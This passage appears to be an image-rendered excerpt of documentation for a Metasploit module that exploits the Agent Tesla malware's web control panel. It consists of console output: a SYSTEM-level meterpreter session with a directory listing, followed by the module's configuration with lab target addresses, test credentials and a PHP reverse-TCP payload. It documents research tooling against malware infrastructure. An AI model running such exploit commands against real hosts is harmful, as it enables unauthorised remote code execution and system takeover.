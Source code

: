 ```
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1500   fil   2017-08-14 16:48:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter >
```

### WebPanel2.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10

```
msf5 > use exploit/multi/http/agent_tesla_panel_rce
msf5 exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf5 exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf5 exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf5 exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   test             no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME   test             no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
```